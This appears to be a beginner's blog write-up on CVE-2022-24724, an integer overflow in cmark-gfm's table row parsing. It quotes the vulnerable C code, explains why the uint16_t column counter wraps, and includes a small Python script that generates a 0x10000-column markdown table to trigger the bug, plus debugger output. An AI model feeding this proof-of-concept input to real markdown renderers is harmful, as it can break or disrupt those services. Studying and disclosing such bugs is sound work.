 ```yaml
---
layout: post
title: Anhphan.md?
subtitle: Small talk about CVE-2022-24724 - recent markdown table parsing bug
tags: [pwn, writeup]
---
```


Note: I'm new in researching stuff so this post might not be so "accurate" 💀

```
| Còng | số  | 8   | siết | tay   | anh  |    |
|------|-----|-----|------|-------|------|----|
| Giam | giữ | đời | anh  | trong | ngục | tù |
```

Yeah, that is a markdown table. Just a few days ago there is a [integer overflow bug](https://github.com/github/cmark-gfm/security/advisories/GHSA-mc3g-88wq-6f4x) in cmark-gfm's table row parsing mechanism. So i decided to look around to see if i could be able to find something interesting :p

table.c:
```C
typedef struct {
  uint16_t n_columns; // [1]
  int paragraph_offset;
  cmark_llist *cells;
} table_row;


...


static table_row *row_from_string(cmark_syntax_extension *self,
                                  cmark_parser *parser, unsigned char *string,
                                  int len) {
  // Parses a single table row. It has the following form:
  // `delim? table_cell (delim table_cell)* delim? newline`
  // Note that cells are allowed to be empty.
  //
  // From the GitHub-flavored Markdown specification:
  //
  // > Each row consists of cells containing arbitrary text, in which inlines
  // > are parsed, separated by pipes (|). A leading and trailing pipe is also
  // > recommended for clarity of reading, and if there’s otherwise parsing
  // > ambiguity.

  table_row *row = NULL;
  bufsize_t cell_matched = 1, pipe_matched = 1, offset;
  int expect_more_cells = 1;
  int row_end_offset = 0;

  row = (table_row *)parser->mem->calloc(1, sizeof(table_row));
  row->n_columns = 0; // [2]
  row->cells = NULL;

  // Scan past the (optional) leading pipe.
  offset = scan_table_cell_end(string, len, 0);

  // Parse the cells of the row. Stop if we reach the end of the input, or if we
  // cannot detect any more cells.
  while (offset < len && expect_more_cells) {


...


      row->n_columns += 1; // [3]
      row->cells = cmark_llist_append(parser->mem, row->cells, cell);
    }


...


  if (offset != len || row->n_columns == 0) { // [4]
    free_table_row(parser->mem, row);
    row = NULL;
  }

  return row;
}
```

Functions analysis:

free_table_row actually calls `cmark_llist_free_full`:

Look at [1], you can see that the n_column is uint16_t type, which ranges from 0x0 to 0xffff.

[2] Before parsing a row the program reset n_column to 0

[3] Every "cell" passing by the n_column value will be increased by 1

[4] This checks if the parsing has been processed correctly, if:

- some unexpected behavior (`offset != len`, everytime the program bypass a "|" character the `offset` will be increased, the `len` is the length of a line of the table) happens

- the number of columns is valid (`row->n_columns == 0`)

If 2 conditions above are not satisfied, then the program will abort table parsing process (by return a NULL "table_row" pointer).

Functions analysis:

`free_table_row` actually calls `cmark_llist_free_full`:

```C
void cmark_llist_free_full(cmark_mem *mem, cmark_llist *head, cmark_free_func free_func) {
  cmark_llist *tmp, *prev;

  for (tmp = head; tmp;) {
    if (free_func)
      free_func(mem, tmp->data);

    prev = tmp;
    tmp = tmp->next;
    mem->free(prev);
  }
}


...


static void free_table_cell(cmark_mem *mem, void *data) {
  node_cell *cell = (node_cell *)data;
  cmark_strbuf_free((cmark_strbuf *)cell->buf);
  mem->free(cell->buf);
  mem->free(cell);
}


...


cmark_llist_free_full(mem, row->cells, (cmark_free_func)free_table_cell);
```

This is simple just free all the cell-pointers on a row. Not thing particular to exploit here.

To make sure i analysed the bug correctly i wrote a small script to generate buggy markdown:
```python
table = ''

for i in range(0x10000):
    table+='|   '
table+='|\n'

for i in range(0x10000):
    table+='|---'
table+='|\n'

print(table)
```

The upper bound of uint16_t data type is 0xffff and 0x10000 row will trigger the integer overflow bug. I tested it and right.
```
*RAX  0x1
*RBX  0x0
*RCX  0x40001
*RDX  0x0
*RDI  0x7ffff7b03d11 ◂— 0xa /* '\n' */
 RSI  0x7ffff7ac3d10 ◂— 0x2020207c2020207c ('|   |   ')
*R8   0x1
*R9   0x0
*R10  0xffffffffffffffff
*R11  0x7ffff6bf95d8 —▸ 0x7ffff7fba460 (CMARK_ARENA_MEM_ALLOCATOR) —▸ 0x7ffff7fa0680 (arena_calloc) ◂— endbr64 
*R12  0x7ffff7ac3d10 ◂— 0x2020207c2020207c ('|   |   ')
*R13  0x40002
*R14  0x55555555cb68 ◂— 0x0
*R15  0x40001
*RBP  0x40002
*RSP  0x7fffffffcd30 ◂— 0x7fff00000001
*RIP  0x7ffff7fbf850 (row_from_string.isra+480) ◂— cmp    r13d, ebp
─────────────────────────────────────────────────────────[DISASM]────────────────────────────────────────────────────────
 ► 0x7ffff7fbf850 <row_from_string.isra+480>    cmp    r13d, ebp
   0x7ffff7fbf853 <row_from_string.isra+483>    jne    row_from_string.isra+512                <row_from_string.isra+512>
 
   0x7ffff7fbf855 <row_from_string.isra+485>    cmp    word ptr [r14], 0
   0x7ffff7fbf85a <row_from_string.isra+490>    je     row_from_string.isra+512                <row_from_string.isra+512>
    ↓
   0x7ffff7fbf870 <row_from_string.isra+512>    mov    rax, qword ptr [rsp + 8]
   0x7ffff7fbf875 <row_from_string.isra+517>    mov    rsi, qword ptr [r14 + 8]
   0x7ffff7fbf879 <row_from_string.isra+521>    lea    rdx, [rip - 0x890]            <0x7ffff7fbeff0>
   0x7ffff7fbf880 <row_from_string.isra+528>    mov    rbx, qword ptr [rax]
   0x7ffff7fbf883 <row_from_string.isra+531>    mov    rdi, rbx
   0x7ffff7fbf886 <row_from_string.isra+534>    call   cmark_llist_free_full@plt                <cmark_llist_free_full@plt>
 
   0x7ffff7fbf88b <row_from_string.isra+539>    mov    rdi, r14
```

In which [r14] is row->n_columns, you can see `R14  0x55555555cb68 ◂— 0x0`. That's where the bug was triggered, you could test it on your own and see that the table parsing is no longer work, but i don't think this bug capable of performing RCE in such small program (own opinion), it might be able to trigger RCE if implemented seperately on larger system.